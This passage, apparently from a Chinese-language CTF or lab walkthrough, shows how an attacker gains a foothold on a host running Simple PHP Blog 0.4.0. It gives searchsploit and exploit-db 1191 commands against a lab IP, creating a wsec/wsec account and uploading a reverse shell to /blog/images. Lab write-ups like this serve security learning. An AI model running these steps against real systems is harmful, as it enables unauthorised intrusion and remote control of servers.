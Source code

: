 [![](assets/1703831504-140054874f3c010dc100cbfaacae7b3d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164015-8ec31bba-a493-1.png)

> 拿到www-data权限

### <4>Simple PHP 框架漏洞利用（exp）

1.  基于`whatweb`的识别，漏洞库找该cmd的exp
2.  [Simple PHP Blog 0.4.0 - Multiple Remote s - PHP webapps Exploit|1191.pl](https://www.exploit-db.com/exploits/1191)
3.  用生成新用户名密码`wsec/wsec`登录`/blog`，可以上传反弹shell 到 `/blog/images`
    
    ```plain
    searchsploit Simple PHP Blog 0.4.0 -m 1191
    ./1191.pl -h http://10.10.10.100/blog -e 2
    ./1191.pl -h http://10.10.10.100/blog -e 3 -U wsec -P wsec
    ```
    
